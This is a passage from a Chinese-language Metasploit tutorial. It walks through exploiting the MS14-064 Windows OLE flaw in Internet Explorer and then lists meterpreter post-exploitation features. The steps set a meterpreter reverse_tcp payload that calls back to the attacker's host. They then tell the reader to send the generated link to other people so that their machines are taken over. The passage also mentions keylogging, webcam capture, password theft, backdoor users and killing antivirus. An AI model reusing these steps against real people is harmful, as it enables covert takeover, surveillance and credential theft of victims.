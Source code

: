 ```shell
```

### 2.17.10 MS14-064漏洞

```shell
Microsoft Windows OLE远程代码执行漏洞，OLE（对象链接与嵌入）是一种允许应用程序共享数据和功能的技术，
远程攻击者利用此漏洞通过构造的网站执行任意代码，影响Win95+IE3 - Win10+IE11全版本.


1.选择一个ssh模块
use exploit/windows/browser/ms14_064_ole_code_execution

2.查看选项
show options
或者 show missing(表示查看必选项)
或者 info (查看模块的详细信息)

3.设置选项
set allowpowershellprompt true
set srvhost 10.102.224.112
set srvport 8081
set payload windows/meterpreter/reverse_tcp
set lhost 10.102.224.112


4.开始扫描
run或者exploit

5.这里会生成一个链接
http://10.102.224.112:8081/02BrBgo
将这个链接发给其他人，如果其他人用IE浏览器打开(切记一定是IE)，你就能在控制台看见对方信息

6.输入sessions命令
然后输入 session id(如 session 1)进入指定的session会话开始进行交互
```

### 2.17.11

## 2.18 meterpreter(metasploit的强大的后渗透模块, 适用于windows系统)

```shell
meterpreter是强大的后渗透模块，可以输入help查看帮助信息
远程控制、命令执行、摄像头监控、密码获取、创建后门用户、破坏篡改系统...
这些看起来非常复杂又高级的操作都能用meterpreter中一行或几个字母，简单的命令完成
Meterpreter比系统shell更加灵活，功能更加丰富
例如监控主机，监控键盘，开启摄像头，麦克风，还可以灵活的获取你的操作系统信息
高级，动态，可扩展的payload,一站式后攻击payload 
基于meterpreter上下文利用更多漏洞发起攻击
后渗透测试阶段一站式操作界面
完全基于内存的DLL注入式payload(不写硬盘)
注入合法系统进程并建立stager
基于stager上传和预加载DLL进行扩展模块的注入(客户端API)
基于stager建立的socket连接建立加密的TLS/1.0通信隧道
利用TLS隧道进一步加载后续扩展模块
(避免网络取证)

#lpwd/lcd
从本机上传到目标机用得到的命令.

#run/bgrun 
run在前台,bgrun在后台

#bgrun killav
```